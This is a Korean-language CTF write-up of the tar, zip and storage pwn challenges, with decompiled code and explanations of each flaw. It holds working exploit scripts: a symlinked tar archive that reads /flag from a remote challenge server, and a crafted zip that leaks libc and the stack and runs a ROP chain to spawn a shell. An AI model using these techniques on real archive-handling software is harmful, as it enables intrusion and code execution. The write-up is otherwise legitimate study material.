## 목차
1. [tar](#tar) - pwn
2. [zip](#zip) - pwn
3. [storage](#storage) - pwn
4. [contract](#contract) - pwn
5. [I love reversing](#I-love-reversing) - rev
6. [Barcode](#Barcode) - rev
7. [Pyrus](#Pyrus) - rev
8. [Clock](#Clock) - rev
9. [frontdoor-1](#frontdoor-1) - web
10. [frontdoor-2](#frontdoor-2) - web
11. [Forgotten Past](#Forgotten-Past) - web
12. [Who's the admin now?](#Whos-the-admin-now) - web
13. [Invalid OTP](#Invalid-OTP) - web
14. [Shadow of the System](#Shadow-of-the-System) - forensic
15. [Watch](#Watch) - forensic
16. [Nothing is essential](#Nothing-is-essential) - forensic
17. [Password](#Password) - forensic
18. [hidden message](#hidden-message) - misc
19. [Cat](#Cat) - misc


### pwn

#### tar 
이 문제는 tar로 압축된 file을 입력받아서 압축 해제한 뒤 파일 내용을 읽어주는 컨셉의 문제였습니다.

```py
def main():
    print_banner()
    
    print("\nEnter your tar archive encoded in base64:")

    # Caution! Your input must be less than 4096 bytes
    base64_data = input()
    if not base64_data:
        print("No data entered.")
        return
    
    result = extract_archive(base64_data)
    if "error" in result:
        print(f"\nError: {result['error']}")
        return
    
    print(f"\n{result['message']}")
    
    try:
        while True:
            print("\nFile List:")
            print("[0] Exit")
            
            for i, file in enumerate(current_extract_info["files"], 1):
                print(f"[{i}] {file['name']}")
            
            try:
                file_choice = int(input("\nEnter the number of the file to read (0 to exit): ").strip())
                
                if file_choice == 0:
                    print("\nExiting service. Thank you!")
                    break
                
                file_index = file_choice - 1
                
                if file_index < 0 or file_index >= len(current_extract_info["files"]):
                    print(f"\nInvalid file number. Please enter a value between 1 and {len(current_extract_info['files'])}.")
                    continue
                
                result = read_file_content(file_index)
                print_file_content(result)
                
            except ValueError:
                print("Please enter a valid number.")
    finally:
        cleanup_result = cleanup_extract_dir()
        if "error" in cleanup_result:
            print(f"\nWarning: {cleanup_result['error']}")

if __name__ == "__main__":
    main()
```

코드를 보면 단순히 tar 파일을 base64 형태로 입력받고, extract하여 지정한 tar 파일 내의 압축된 파일 내용들을 출력해주는 것이 전부입니다.

취약점은 단순했습니다.

```py
def extract_archive(base64_data):
    try:
        try:
            decoded_data = base64.b64decode(base64_data)
        except Exception as e:
            return {"error": f"Base64 decoding failed: {str(e)}"}
        
        tar_bytes = io.BytesIO(decoded_data)
        
        if not os.path.exists(USER_FILES_DIR):
            os.makedirs(USER_FILES_DIR)
        
        timestamp = int(time.time())
        random_suffix = generate_random_string()
        extract_dir_name = f"{timestamp}_{random_suffix}"
        extract_dir_path = os.path.join(USER_FILES_DIR, extract_dir_name)
        
        os.makedirs(extract_dir_path)
        
        extracted_files = []
        
        try:
            with tarfile.open(fileobj=tar_bytes, mode='r') as tar:
                tar.extractall(path=extract_dir_path)
                
                for member in tar.getmembers():
                    if member.isdir():
                        continue
                    
                    file_path = os.path.join(extract_dir_path, member.name)
                    
                    extracted_files.append({
                        "name": member.name,
                        "path": file_path
                    })
        except Exception as e:
            shutil.rmtree(extract_dir_path, ignore_errors=True)
            return None
        
        global current_extract_info
        current_extract_info["files"] = extracted_files
        current_extract_info["extract_dir"] = extract_dir_path
        
        return {
            "success": True,
            "message": f"{len(extracted_files)} files have been successfully extracted.",
            "files": extracted_files
        }
        
    except Exception as e:
        return {"error": f"Error occurred during processing: {str(e)}"}
```

**tar**는 hard, symbolic link 형태의 파일을 포함하여 압축하는 것도 가능한 linux-friendly한 압축 형태입니다. 또한 이 문제의 extract과정에서는 linking된 파일에 대한 검증이 따로 존재하지 않습니다.

즉, `/flag`라는 경로를 link하는 파일을 tar형태로 압축한 뒤 base64형태의 데이터로 전송해주고, 파일 내용을 읽는다면 서버 내의 플래그를 읽어올 수 있습니다.

##### ex.py
```python
from pwn import *
import base64
import os
import tarfile

os.symlink('/flag', 'hack')

with tarfile.open('hack.tar', 'w') as tar:
    tar.add('hack')

with open('hack.tar', 'rb') as f:
    buf = f.read()

b64 = base64.b64encode(buf)
p = remote('hacktheon2025-challs-nlb-81f078c4ab2677e2.elb.ap-northeast-2.amazonaws.com', 32496)

p.sendlineafter(b'base64:', b64)

p.interactive()
```

flag: `FLAG{53f81c237b8466628a65ed9a0999aff8}`

#### zip
tar 문제와 이름은 유사하지만, 단순한 trick성 문제는 아니고 정통 pwnable문제였습니다.

입력은 이전 문제와 유사하게 base64로 encoding한 zip파일을 전송합니다. 하지만 이를 여러번 반복할 수 있고, 파일 이름 list를 가져오거나 내용을 base64 encoded 된 상태로 읽을 수 있습니다.

취약점은 두 가지가 존재했습니다. 첫 번째는 custom memory allocator에 의한 UAF였습니다. 

```c
__int64 __fastcall parse_zip_file(zip_structure *a1, FILE *zip_file)
{
  unsigned int v2; // ebp
  unsigned __int64 v4; // r12
  unsigned __int64 total_entries; // rax
  central_directory_entry *central_dir_ent; // r15
  char *filename; // rdi
  char *extra_field; // rdi
  char *comment; // rdi
  __int64 v10; // r12
  local_file_entry *v11; // r15

  if ( !read_ecd(a1->end_of_central_directory, zip_file, &a1->zip_comment) )
    return 0;
  a1->central_directory_entries = memory_allocator(8 * a1->end_of_central_directory->total_entries);
  a1->local_file_entries = memory_allocator(8 * a1->end_of_central_directory->total_entries);
  fseek(zip_file, a1->end_of_central_directory->central_directory_offset, 0);
  LOBYTE(v2) = 1;
  if ( a1->end_of_central_directory->total_entries )
  {
    v4 = 0LL;
    do
    {
      central_dir_ent = memory_allocator(0x48);
      *central_dir_ent->hdr.signature = 0LL;
      *&central_dir_ent->hdr.crc32 = 0LL;
      *&central_dir_ent->hdr.comment_length = 0LL;
      *&central_dir_ent->extra_field = 0LL;
      central_dir_ent->filename = 0LL;
      a1->central_directory_entries[v4] = central_dir_ent;
      if ( !read_cde(central_dir_ent, zip_file) )
      {                                         // CDE는 실패해도 대충 영역만 free로 처리하고 그대로 진행됨 LFE 파싱할 때 -> UAF를?

        filename = central_dir_ent->filename;
        if ( filename )
          trip_using_bit(filename);
        extra_field = central_dir_ent->extra_field;
        if ( extra_field )
          trip_using_bit(extra_field);
        comment = central_dir_ent->comment;
        if ( comment )
          trip_using_bit(comment);
        trip_using_bit(central_dir_ent);
      }
      ++v4;
      total_entries = a1->end_of_central_directory->total_entries;
    }
    while ( v4 < total_entries );
    if ( total_entries )
    {
      v10 = 0LL;
      while ( 1 )
      {
        fseek(zip_file, a1->central_directory_entries[v10]->hdr.local_header_offset, 0);
        v11 = memory_allocator(0x48);
        *v11->hdr.signature = 0LL;
        *(&v11->hdr.crc32 + 2) = 0LL;
        *&v11->extra = 0LL;
        *&v11->filename = 0LL;
        v11->uncomp_buf = 0LL;
        a1->local_file_entries[v10] = v11;
        if ( !read_lfe(v11, zip_file) )
          break;
        if ( ++v10 >= a1->end_of_central_directory->total_entries )
          return v2;
      }
      destruct_local_file(v11);
      return 0;
    }
  }
  return v2;
}
```

zip파일은 몇 가지의 헤더와 바디로 나눠져있기 때문에, parsing하는 과정에서 여러개의 구조체를 파싱해야합니다. 첫째로 가장 마지막 부분에 위치하는 `end_of_central_directory` 구조체를 파싱합니다. 

그 이후, file의 body에 대한 메타데이터(?)급의 정보를 담는 `central_dir_entry`(이하 cde) 구조체를 파싱하고, 이후에는 `local_file_entries`(이하 lfe)를 파싱합니다. 그러나 이때, 위 코드를 보시면 알 수 있겠지만, cde를 파싱하다 중간에 실패하는 경우에는 메모리를 지우거나 강제로 프로세스를 종료하지 않고, 공간과 데이터가 할당된 영역을 freed 상태로 변환시키기만 합니다.

또한 cde와 lfe 구조체는 둘 다 0x48로 구조체의 크기가 같습니다. 따라서 cde를 prasing하는 도중 의도적으로 실패를 유발하고 lfe를 할당받는다면 같은 공간을 재사용하며 `UAF`가 발생하게 됩니다.

```c
#pragma pack(push, 1)
struct central_directory_entry_hdr
{
  char signature[4];
  uint16_t version_made_by;
  uint16_t version_needed;
  uint16_t general_purpose_bit_flag;
  uint16_t compression_method;
  uint16_t last_mod_time;
  uint16_t last_mod_date;
  uint32_t crc32;
  uint32_t compressed_size;
  uint32_t uncompressed_size;
  uint16_t filename_length;
  uint16_t extra_field_length;
  uint16_t comment_length;
  uint16_t disk_number_start;
  uint16_t internal_file_attrs;
  uint32_t external_file_attrs;
  uint32_t local_header_offset;
};
#pragma pack(pop)
struct central_directory_entry
{
  central_directory_entry_hdr hdr;
  char *extra_field;
  char *comment;
  char *filename;
};

#pragma pack(push, 1)
struct local_file_header
{
  char signature[4];
  uint16_t version_needed;
  uint16_t general_purpose_bit_flag;
  uint16_t compression_method;
  uint16_t last_mod_time;
  uint16_t last_mod_date;
  uint32_t crc32;
  uint32_t compressed_size;
  uint32_t uncompressed_size;
  uint16_t filename_length;
  uint16_t extra_field_length;
  uint8_t status;
};
#pragma pack(pop)

struct local_file_entry
{
  local_file_header hdr;
  char *extra;
  char *desc;
  char *filename;
  char *comp_buf;
  char *uncomp_buf;
};
```

구조체를 확인해보면, lfe의 filename 멤버 변수부터 uncomp_buf 멤버변수까지, cde의 멤버변수들과 모두 겹치는 것을 확인할 수 있습니다. 

```c
char __fastcall list_zip_entries(zip_structure *a1)
{
  raw_end_of_central_directory *eocr; // rax
  unsigned __int64 i; // r15
  central_directory_entry *central_dir; // rcx
  local_file_entry *local_file; // rdx
  char *filename; // r12
  uint16_t filename_length; // bp

  eocr = a1->end_of_central_directory;
  if ( eocr->total_entries )
  {
    for ( i = 0LL; i < eocr->total_entries; ++i )
    {
      central_dir = a1->central_directory_entries[i];
      local_file = a1->local_file_entries[i];
      filename = local_file->filename;
      if ( filename )
      {
        filename_length = local_file->hdr.filename_length;
        if ( filename_length )
          goto LABEL_6;
      }
      else
      {
        filename = central_dir->filename;
        filename_length = local_file->hdr.filename_length;
        if ( filename_length )
        {
LABEL_6:
          if ( filename )
            goto LABEL_10;
          continue;
        }
      }
      filename_length = central_dir->hdr.filename_length;
      if ( filename )
      {
LABEL_10:
        if ( filename_length )
        {
          printf("Entry %d: ", i);
          fwrite(filename, 1uLL, filename_length, stdout);// filename buffer는 cde에서 가져오고 길이는 lfe에서 가져옴
          putchar(10);
          eocr = a1->end_of_central_directory;
        }
      }
    }
  }
  return 1;
}
```

또한, zip file의 entries를 출력하는 함수에서는 filename을 출력할 때, lfe 혹은 cde구조체만을 활용하는 것이 아니라 값들을 혼용하는 것을 확인할 수 있습니다. 즉, UAF를 적절히 활용하여 데이터를 배치하면 범위를 넘어선 영역의 데이터를 fwrite로 출력할 수 있고, 이를 통해 memory leak이 가능합니다.

두 번째 취약점은 zip 파일을 extract하는 과정에서 발생합니다.

```c
char __fastcall extract_zip_entries(zip_structure *a1)
{
  char result; // al
  __int64 v2; // r12
  central_directory_entry *central_dir; // rbp
  local_file_entry *local_file; // rbx
  int uncomp_sze; // r13d
  char *loc_uncomp_buf_; // rbp
  __int16 compression_method; // ax
  unsigned int comp_sze; // edx
  char *loc_uncomp_buf; // rcx
  char *v10; // rbx

  result = 1;
  if ( a1->end_of_central_directory->total_entries )
  {
    v2 = 0LL;
    while ( 1 )
    {
      central_dir = a1->central_directory_entries[v2];
      local_file = a1->local_file_entries[v2];
      if ( local_file->hdr.status )
      {
        uncomp_sze = local_file->hdr.uncompressed_size;
        if ( uncomp_sze )
          goto LABEL_6;
        goto LABEL_16;
      }
      compression_method = local_file->hdr.compression_method;
      if ( compression_method )
      {
        comp_sze = local_file->hdr.compressed_size;
        if ( !comp_sze )
          goto LABEL_12;
      }
      else
      {
        compression_method = central_dir->hdr.compression_method;
        comp_sze = local_file->hdr.compressed_size;
        if ( !comp_sze )
        {
LABEL_12:
          comp_sze = central_dir->hdr.compressed_size;
          if ( !comp_sze )
            goto LABEL_15;
        }
      }
      loc_uncomp_buf = local_file->uncomp_buf;
      if ( loc_uncomp_buf && !decompress(compression_method, local_file->comp_buf, comp_sze, loc_uncomp_buf) )// overflow
        return 0;
LABEL_15:
      local_file->hdr.status = 1;
      uncomp_sze = local_file->hdr.uncompressed_size;
      if ( uncomp_sze )
      {
LABEL_6:
        loc_uncomp_buf_ = local_file->uncomp_buf;
        if ( loc_uncomp_buf_ )
          goto LABEL_17;
        goto LABEL_3;
      }
LABEL_16:
      uncomp_sze = central_dir->hdr.uncompressed_size;
      loc_uncomp_buf_ = local_file->uncomp_buf;
      if ( loc_uncomp_buf_ )
      {
LABEL_17:
        if ( uncomp_sze )
        {
          v10 = malloc(2 * (((0xAAAAAAAB * (uncomp_sze + 2)) >> 32) & 0xFFFFFFFE) + 1);
          b64encode(loc_uncomp_buf_, uncomp_sze, v10);
          printf("Entry %d: %s\n", v2, v10);
        }
      }
LABEL_3:
      if ( ++v2 >= a1->end_of_central_directory->total_entries )
        return 1;
    }
  }
  return result;
}

__int64 __fastcall decompress(__int16 comp_method, char *comp_buf, unsigned int sze, char *uncomp_buf)
{
  vtable *v6; // rax
  __int64 result; // rax

  v6 = vtable_5018;
  if ( !vtable_5018 )
  {
    v6 = memory_allocator(128);
    v6->memmove = sub_1580;
    v6->func1 = sub_15A0;
    v6->func2 = sub_15A0;
    v6->func3 = sub_15A0;
    v6->func4 = sub_15A0;
    v6->func5 = sub_15A0;
    v6->func6 = sub_15A0;
    v6->func7 = sub_15A0;
    v6->func8 = sub_15A0;
    v6->func9 = sub_15A0;
    v6->func10 = sub_15A0;
    v6->func11 = sub_15A0;
    v6->func12 = sub_15A0;
    v6->func13 = sub_15A0;
    v6->func14 = sub_15A0;
    vtable_5018 = v6;
  }
  switch ( comp_method )
  {
    case 0:
      goto LABEL_19;
    case 1:
      v6 = (v6 + 8);
      goto LABEL_19;
    case 2:
      v6 = (v6 + 16);
      goto LABEL_19;
    case 3:
      v6 = (v6 + 24);
      goto LABEL_19;
    case 4:
      v6 = (v6 + 32);
      goto LABEL_19;
    case 5:
      v6 = (v6 + 40);
      goto LABEL_19;
    case 6:
      v6 = (v6 + 48);
      goto LABEL_19;
    case 8:
      v6 = (v6 + 56);
      goto LABEL_19;
    case 9:
      v6 = (v6 + 64);
      goto LABEL_19;
    case 12:
      v6 = (v6 + 72);
      goto LABEL_19;
    case 14:
      v6 = (v6 + 80);
      goto LABEL_19;
    case 96:
      v6 = (v6 + 88);
      goto LABEL_19;
    case 97:
      v6 = (v6 + 96);
      goto LABEL_19;
    case 98:
      v6 = (v6 + 104);
      goto LABEL_19;
    case 99:
      v6 = (v6 + 112);
LABEL_19:
      result = (v6->memmove)(comp_buf, sze, uncomp_buf);
      break;
    default:
      result = 0LL;
      break;
  }
  return result;
}

char __fastcall sub_1580(void *src, size_t n, void *dest)
{
  memmove(dest, src, n);
  return 1;
}
```

`decompress`함수를 호출하는 부분을 보면, source buffer로는 `comp_buf`, size로는 `compressed_size`를 넘겨주고 있지만, destination으로는 `uncomp_buf`를 전달합니다. 또한, 압축된 파일을 prasing 때, uncompressed buffer를 함께 읽어옵니다. (그럼 더 이상 압축이 아니긴 합니다만..) 때문에, uncomp_buf는 comp_buf의 size보다 작게 설정될 수 있고, 이를 통해 buffer overrun이 발생할 수 있습니다.

이 overrun은 comp_buf보다 나중에 할당된 모든 영역의 메모리를 overwrite할 수 있기 때문에 헤더 데이터나 포인터 등을 모두 덮어씌울 수 있습니다. 이 이후로는 fsop, rop 등 선호하는 exploit 방법으로 exploit하면 됩니다. 제 경우에는 glibc 버전이 바뀔 때마다 exploit 방식도 바뀌게 되는 fsop를 비선호하기에 `environ`을 leak한 후, stack rop로 shell을 획득했습니다.

##### ex.py
```py
from pwn import *
import base64

# p = remote('hacktheon2025-challs-nlb-81f078c4ab2677e2.elb.ap-northeast-2.amazonaws.com', 22193)
# p = process('./zip', aslr=False, level='debug')
p = remote('localhost', 9999)

def build_custom_zip(lf_hdr: list, cd_hdr: list, eocr: dict) -> bytes:
    zip_buf = b''
    local_header_size = 0
    loc_hdr_offset = [0, ]
    for hdr in lf_hdr:
        # === Local File Header (30 bytes) ===
        zip_buf += b'PK\x03\x04'            # Local file header signature
        zip_buf += p16(20)                  # Version needed to extract
        zip_buf += p16(hdr['gen_bit'])      # General purpose bit flag
        zip_buf += p16(hdr['comp_method'])  # Compression method
        zip_buf += p16(0)                   # File last mod time
        zip_buf += p16(0)                   # File last mod date
        zip_buf += p32(0)                   # CRC-32 (set to 0 for simplicity)
        zip_buf += p32(hdr['comp_sze'])     # Compressed size
        zip_buf += p32(hdr['uncomp_sze'])   # Uncompressed size
        zip_buf += p16(hdr['filename_sze']) # File name length
        zip_buf += p16(hdr['extra_sze'])    # Extra field length
        zip_buf += hdr['filename']          # File name
        zip_buf += hdr['extra']             # extra
        zip_buf += hdr['comp']              # comp File content
        zip_buf += hdr['uncomp']            # uncomp File content
        if hdr['gen_bit'] == 8:
            zip_buf += hdr['desc']    # data_descriptor

        local_header_size += 30 \
                            + len(hdr['filename']) \
                            + len(hdr['extra']) \
                            + len(hdr['comp']) \
                            + len(hdr['uncomp']) 
        if hdr['gen_bit'] == 8:
            local_header_size += 12
        loc_hdr_offset.append(local_header_size)

    cd_header_size = 0
    for i in range(len(cd_hdr)):
        # === Central Directory Header (46 bytes) ===
        zip_buf += b'PK\x01\x02'                    # Central dir file header signature
        zip_buf += p16(20)                          # Version made by
        zip_buf += p16(20)                          # Version needed to extract
        zip_buf += p16(0)                           # General purpose bit flag
        zip_buf += p16(cd_hdr[i]['comp_method'])    # Compression method
        zip_buf += p16(0)                           # File last mod time
        zip_buf += p16(0)                           # File last mod date
        zip_buf += p32(0)                           # CRC-32 (not calculated)
        zip_buf += p32(cd_hdr[i]['comp_sze'])             # Compressed size
        zip_buf += p32(cd_hdr[i]['uncomp_sze'])           # Uncompressed size
        zip_buf += p16(cd_hdr[i]['filename_sze'])         # File name length
        zip_buf += p16(cd_hdr[i]['extra_sze'])            # Extra field length
        zip_buf += p16(cd_hdr[i]['comment_sze'])          # File comment length
        zip_buf += p16(0)                           # Disk number start
        zip_buf += p16(0)                           # Internal file attributes
        zip_buf += p32(0)                           # External file attributes
        zip_buf += p32(loc_hdr_offset[i])           # Relative offset of local header
        zip_buf += cd_hdr[i]['filename']                  # File name
        zip_buf += cd_hdr[i]['extra']
        zip_buf += cd_hdr[i]['comment']

        cd_header_size += 46 \
                        + len(cd_hdr[i]['filename']) \
                        + len(cd_hdr[i]['extra']) \
                        + len(cd_hdr[i]['comment'])
    
    # === End of Central Directory Record (22 bytes) ===
    zip_buf += b'PK\x05\x06'                # EOCD signature
    zip_buf += p16(0)                       # Number of this disk
    zip_buf += p16(0)                       # Disk where CD starts
    zip_buf += p16(eocr['num_of_cd'])       # Number of CD records on this disk
    zip_buf += p16(eocr['num_of_cd'])       # Total number of CD records
    zip_buf += p32(cd_header_size)          # Size of central directory
    zip_buf += p32(local_header_size)       # Offset of start of central directory
    zip_buf += p16(len(eocr['comment']))    # zip_buf file comment length
    zip_buf += eocr['comment']
    b64 = base64.b64encode(zip_buf)
    with open('zzzzzz.zip', 'wb') as f:
        f.write(zip_buf)
    return b64

def make_lf(gen_bit, comp_method, comp, comp_sze, uncomp, uncomp_sze, fn, fn_sze, ext, ext_sze) -> dict:
    lf_hdr = {}
    lf_hdr['gen_bit']       = gen_bit
    lf_hdr['comp_method']   = comp_method
    lf_hdr['comp']          = comp
    lf_hdr['comp_sze']      = comp_sze
    lf_hdr['uncomp']        = uncomp
    lf_hdr['uncomp_sze']    = uncomp_sze
    lf_hdr['filename']      = fn
    lf_hdr['filename_sze']  = fn_sze
    lf_hdr['extra']         = ext
    lf_hdr['extra_sze']     = ext_sze
    return lf_hdr

def make_cde(comp_method, comp_sze, uncomp_sze, fn, fn_sze, ext, ext_sze, cmt, cmt_sze) -> dict:
    cd_hdr = {}
    cd_hdr['comp_method']   = comp_method
    cd_hdr['comp_sze']      = comp_sze
    cd_hdr['uncomp_sze']    = uncomp_sze
    cd_hdr['filename']      = fn
    cd_hdr['filename_sze']  = fn_sze
    cd_hdr['extra']         = ext
    cd_hdr['extra_sze']     = ext_sze
    cd_hdr['comment']       = cmt
    cd_hdr['comment_sze']   = cmt_sze
    return cd_hdr

def make_eocr(num_of_cd, cmt=b'') -> dict:
    eocr = {}
    eocr['num_of_cd'] = num_of_cd
    eocr['comment'] = cmt

    return eocr

lf1 = make_lf(0, 0, b'A'*0x10, 0x10, b'B'*0x18, 0x18, b'', 0x0, b'C'*0x50, 0x50)
lf2 = make_lf(0, 0, b'a'*0x10, 0x10, b'b'*0x10, 0x10, b'', 0x0, b'c'*0x10, 0x10)

lf_hdrs = [lf1, lf2]

cd1 = make_cde(0, 0x10, 0x10, b'zzzz/zxxx', 0x9, b'Z'*0x10, 0x10, b'z'*0x10, 0x10)
cd2 = make_cde(0, 0x10, 0x10, b'dddd/dddd', 0x9, b'z'*0x10, 0x10, b'Z'*0x10, 0x80)
cd_hdrs = [cd1, cd2]

eocr = make_eocr(len(cd_hdrs))

buf = build_custom_zip(lf_hdrs, cd_hdrs, eocr)

p.sendlineafter(b'>> ', buf)
p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'Entry 1: ')
p.recv(0x38)
leak        = u64(p.recv(8))
ld_base     = leak - 0x374a0
libc        = leak - 0x2644a0
environ     = libc + 0x222200
prdi        = libc + 0x16efaf
binsh       = libc + 0x1d8678
system      = libc + 0x50d70

# pause()
# leak = u64(p.recvuntil(b'\x7f')[-6:] + b'\0\0')
log.info('LEAK      : %#x'%leak)
log.info('LD_BASE   : %#x'%ld_base)
log.info('LIBC      : %#x'%libc)

p.sendlineafter(b'>> ', b'0')

pay = b''
pay += p64(0)*2
pay += b'PK\x03\x04'
pay += p16(20)
pay += p16(0)
pay += p16(0)
pay += p16(0)
pay += p16(0)
pay += p32(0)
pay += p32(0)
pay += p32(0)
pay += p16(0x8)
pay += p16(0)
pay += p16(0)
pay += p64(0)
pay += p64(0)
pay += p64(environ)

lf1 = make_lf(0, 0, b'A'*0x10, 0x10, b'B'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)
lf2 = make_lf(0, 0, pay, len(pay), b'b'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)
lf3 = make_lf(0, 0, b'a'*0x10, 0x10, b'b'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)

lf_hdrs = [lf1, lf2, lf3]

cd1 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)
cd2 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)
cd3 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)

cd_hdrs = [cd1, cd2, cd3]

eocr = make_eocr(len(cd_hdrs))

buf = build_custom_zip(lf_hdrs, cd_hdrs, eocr)
p.sendlineafter(b'>> ', buf)
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'Entry 2: ')
stack = u64(p.recv(8))
log.info('STACK     : %#x'%stack)
p.sendlineafter(b'>> ', b'0')


rop = p64(prdi + 1) + p64(prdi) + p64(binsh) + p64(system) + b'ipwn'

pay = b''
pay += p64(0)*2
pay += b'PK\x03\x04'
pay += p16(20)
pay += p16(0)
pay += p16(0)
pay += p16(0)
pay += p16(0)
pay += p32(0)
pay += p32(len(rop))
pay += p32(0)
pay += p16(0x8)
pay += p16(0)
pay += p16(0)
pay += p64(0)
pay += p64(0)
pay += p64(environ)
pay += p64(leak + 0x4b8)
pay += p64(stack - 0x1170)

lf1 = make_lf(0, 0, b'A'*0x10, 0x10, b'B'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)
lf2 = make_lf(0, 0, b'A'*0x10, 0x10, b'B'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)
lf3 = make_lf(0, 0, pay, len(pay), b'b'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)
lf4 = make_lf(0, 0, rop, len(rop), b'b'*0x10, 0x10, b'y'*0x8, 0x8, b'', 0x0)

lf_hdrs = [lf1, lf2, lf3, lf4]

cd1 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)
cd2 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)
cd3 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)
cd4 = make_cde(0, 0x10, 0x10, b'', 0x0, b'', 0x0, b'', 0x0)

cd_hdrs = [cd1, cd2, cd3, cd4]

eocr = make_eocr(len(cd_hdrs))

buf = build_custom_zip(lf_hdrs, cd_hdrs, eocr)
p.sendlineafter(b'>> ', buf)
pause()
p.sendlineafter(b'>> ', b'2')
p.interactive()
```

flag: upsolved after the end of CTF

#### storage
데이터를 저장하는 storage protocol이라는 컨셉의 문제였습니다. reversing task가 적지 않았던 것을 제외하면 간단히 exploit할 수 있었습니다. TMI지만 요즘은 IDA에 mcp plugin도 붙여줄 수 있으니 이를 적절히 잘 활용할 수 있다면 reversing task를 크게 간소화 할 수 있습니다!

```c
unsigned __int64 init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  mapping();
  sub_11E0();
  return __readfsqword(0x28u);
}

unsigned __int64 mapping()
{
  g_map = malloc(0x10000uLL);
  memset(g_map, 0, 0x10000uLL);
  return __readfsqword(0x28u);
}

unsigned __int64 sub_11E0()
{
  size_t bm_size; // [rsp+0h] [rbp-30h]
  int j; // [rsp+Ch] [rbp-24h]
  unsigned __int64 len; // [rsp+10h] [rbp-20h]
  int i; // [rsp+1Ch] [rbp-14h]

  BITMAPS = malloc(0x48uLL);
  memset(BITMAPS, 0, 0x48uLL);
  for ( i = 0; i < 9; ++i )
    MAP_SIZE += CHUNK_CNT[i] * CHUNK_SIZES[i];
  MAP_SIZE = (MAP_SIZE + 0xFFF) & 0xFFFFFFFFFFFFF000LL;
  for ( len = 1LL; len < MAP_SIZE; len *= 2LL ) // 0x25000
    ;
  MAYBE_LIM = len - 1;                          // 0x3ffff
  MMAPED = mmap(0LL, len, 3, 34, -1, 0LL);      // 0x40000
  if ( MMAPED == -1 )
    exit(1);
  PTR = MMAPED;
  for ( j = 0; j < 9; ++j )
  {
    CHUNK_MAPS[j] = PTR;
    PTR += CHUNK_CNT[j] * CHUNK_SIZES[j];
    bm_size = (CHUNK_CNT[j] + 7) / 8;
    BITMAPS[j] = malloc(bm_size);               // malloc size list ==> |8|8|8|4|4|4|2|2|2| bitmap이군
    memset(BITMAPS[j], 0, bm_size);
  }
  return __readfsqword(0x28u);
}
```

memory map과 custom heap layout을 initailize해주는 부분을 분석해보면, 각 chunk의 size들, size에 할당된 chunk의 개수, mmap으로 구분한 chunk map, used bit를 기록하는 bitmap을 어떻게 설정하는지 분석할 수 있습니다.

또한 이 전에, protocol의 입력을 받는 `g_map`변수를 0x10000크기로 ptmalloc heap에 할당합니다.

```c
__int64 main_routine()
{
  int v1; // [rsp+4h] [rbp-Ch]

  read(0, g_map, 8uLL);                         // [instruction(4bytes)|size(4bytes)]
  v1 = vm_run(g_map);
  if ( v1 < 0 )
    exit(255);
  memset(g_map, 0, 0x10000uLL);
  dword_6128 = 0;
  return v1;
}
```

main으로 작동하는 routine에서는 protocol 입력을 instruction(4bytes), payload counts(4bytes)으로 구분하여 8bytes를 입력받습니다.

```c
__int64 __fastcall vm_run(packet *a1)
{
  const char *v2; // [rsp+10h] [rbp-70h]
  unsigned int v3; // [rsp+1Ch] [rbp-64h]
  char *hex_str; // [rsp+20h] [rbp-60h]
  unsigned int data_size; // [rsp+2Ch] [rbp-54h]
  payload *v6; // [rsp+30h] [rbp-50h]
  int data_cnt; // [rsp+40h] [rbp-40h]
  int inst; // [rsp+44h] [rbp-3Ch]
  unsigned int v9; // [rsp+54h] [rbp-2Ch]
  unsigned int v10; // [rsp+54h] [rbp-2Ch]
  unsigned int v11; // [rsp+54h] [rbp-2Ch]
  unsigned int v12; // [rsp+54h] [rbp-2Ch]
  char *v14; // [rsp+68h] [rbp-18h] BYREF
  void *ptr; // [rsp+70h] [rbp-10h] BYREF
  unsigned __int64 v16; // [rsp+78h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  inst = a1->inst;
  data_cnt = a1->data_cnt;
  v6 = parse_packet_data(a1->raw_payload, data_cnt);
  switch ( inst )
  {
    case 1:
        . . .
  }
}

payload *__fastcall parse_packet_data(char *raw_payload, unsigned __int16 a2)
{
  unsigned int j; // [rsp+8h] [rbp-38h]
  int i; // [rsp+Ch] [rbp-34h]
  payload *s; // [rsp+18h] [rbp-28h]

  if ( !a2 )
    return 0LL;
  s = malloc(0x10LL * a2);
  memset(s, 0, 16LL * a2);
  for ( i = 0; i < a2; ++i )
  {
    read(0, raw_payload, 2uLL);                 // size
    s[i].size = *raw_payload;
    for ( j = 0; j < *raw_payload; ++j )
      read(0, &raw_payload[j + 2], 1uLL);
    s[i].buffer = raw_payload + 2;
    raw_payload += *raw_payload + 2;
  }
  return s;
}
```

이제 payload count의 개수에 맞게 payload들을 하나씩 입력을 받는데, 이 때 각 payload의 size를 2bytes씩, 그리고 실제 payload body를 입력한 size만큼 입력받습니다.

여기서 파악할 수 있는 점은 raw_payload를 입력받을 때, 입력한 데이터의 크기가 0x10000을 초과하게 된다면 `g_map` 변수에 할당된 공간을 초과한다는 점입니다. 또한 이 바로 뒤에는 각 chunk마다의 bitmap들이 담겨있는 array가 존재합니다. 즉, 여기서 발생하는 heap buffer overrun을 통해 bitmap의 주소를 조작할 수 있습니다.

```c
void *__fastcall custom_memory_alloc(unsigned int size)
{
  int j; // [rsp+30h] [rbp-20h]
  int i; // [rsp+34h] [rbp-1Ch]
  int v4; // [rsp+38h] [rbp-18h]

  if ( !size || size > 0x1000 )
    return 0LL;
  v4 = -1;
  for ( i = 0; i < 9; ++i )
  {
    if ( size <= CHUNK_SIZES[i] )
    {
